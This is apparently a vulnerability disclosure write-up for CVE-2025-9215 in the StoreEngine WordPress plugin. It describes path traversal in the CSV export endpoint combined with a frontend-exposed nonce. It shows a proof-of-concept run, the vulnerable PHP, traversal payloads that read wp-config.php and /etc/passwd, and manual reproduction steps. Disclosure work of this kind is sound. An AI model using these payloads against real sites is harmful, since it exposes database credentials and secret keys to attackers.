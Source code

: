 +++
title = 'StoreEngine Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Download'
date = 2025-09-16T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "StoreEngine"]
+++
### CVE-2025-9215

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in its CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to download arbitrary files from the server, including sensitive system files, WordPress configuration files, and plugin source code. The vulnerability stems from the `storeengine_csv/file_download` endpoint lacking proper path sanitization and only relying on nonce verification for security, while the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. **Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** Once enabled, this combination allows any authenticated user to extract the nonce from frontend pages and use it to download any file on the server via path traversal attacks, effectively granting subscriber+ users access to sensitive system and application files.

## TL;DR Exploits
* A POC [CVE-2025-9215.py](https://github.com/d0n601/CVE-2025-9215/blob/main/CVE-2025-9215.py) is provided to demonstrate a subscriber user downloading the WordPress configuration file via path traversal.
  
```console
 python3 ./CVE-2025-9215.py http://localhost:1337 user1 password   
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: 82cb37f678
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
The addon activation requires 'manage_options' capability (admin only).

Downloading wp-config.php via path traversal...
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
...
...
...
```

## Details  

### **Vulnerable File Download Function**
**Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** The addon activation endpoint (`storeengine/saved_addon_status`) requires `manage_options` capability, meaning only administrators can enable this functionality.

The `storeengine_csv/file_download` AJAX action calls the `file_download()` function on line [47](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/export.php#L47) of `/wp-content/plugins/storeengine/addons/csv/ajax/export.php`, which lacks proper path sanitization and allows arbitrary file downloads:

```php
public function file_download( array $payload ) {
    if ( ! isset( $payload['filename'] ) ) {
        wp_send_json_error( __( 'Filename is required.', 'storeengine' ) );
    }

    $filename = $payload['filename'];
    $filepath = Helper::get_upload_dir() . '/csv/' . $filename;  // <-- VULNERABLE TO PATH TRAVERSAL!
    
    // NO CAPABILITY CHECK - ANY USER CAN DOWNLOAD ANY FILE!
    // NO PATH SANITIZATION - DIRECT CONCATENATION ALLOWS ../ ATTACKS!
    
    if ( ! file_exists( $filepath ) ) {
        wp_send_json_error( __( 'File not found.', 'storeengine' ) );
    }

    header( 'Content-Type: application/octet-stream' );
    header( 'Content-Disposition: attachment; filename="' . $filename . '"' );
    readfile( $filepath );  // <-- READS AND OUTPUTS ANY FILE!
    exit;
}
```

### **Path Construction Vulnerability**
The vulnerable path construction allows complete path traversal:

```php
// Helper::get_upload_dir() returns:
$upload = wp_upload_dir();
return $upload['basedir'] . '/storeengine_uploads';

// So the full path becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/' . $filename;

// With path traversal, this becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../wp-config.php'
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../../../../etc/passwd'
```


### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```

This combination allows any authenticated user to bypass CSRF protection and download any file on the server, including sensitive configuration files, source code, and potentially system files.

## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Export section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Intercept a request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/file_download` action.
5. Modify the request to include the extracted nonce and a path traversal payload.
6. Send the request with `filename=../../../../wp-config.php` to download the WordPress configuration file.
7. Access sensitive configuration files including database credentials, API keys, and security salts.
